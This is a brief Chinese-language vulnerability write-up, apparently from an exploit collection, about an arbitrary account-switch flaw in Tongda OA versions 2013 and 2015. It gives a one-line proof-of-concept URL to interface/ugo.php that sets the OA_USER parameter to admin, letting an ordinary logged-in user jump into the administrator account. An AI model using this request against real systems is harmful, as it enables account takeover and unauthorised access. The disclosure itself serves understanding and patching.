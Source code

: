 ```yaml
---
title: 通达oa 任意账号跳转
id: zhfly3335
---
```


# 通达oa 任意账号跳转

## 一、漏洞简介

需要登录

## 二、漏洞影响

2013、2015版本

## 三、复现过程

POC:

```
http://0-sec.org/interface/ugo.php?OA_USER=admin 
```

通过控制OA_USER参数进行任意⽤户的跳转，⽐如说你现在是个普通权限的⽤户，使用这个⻚面即可跳转到admin用户下面。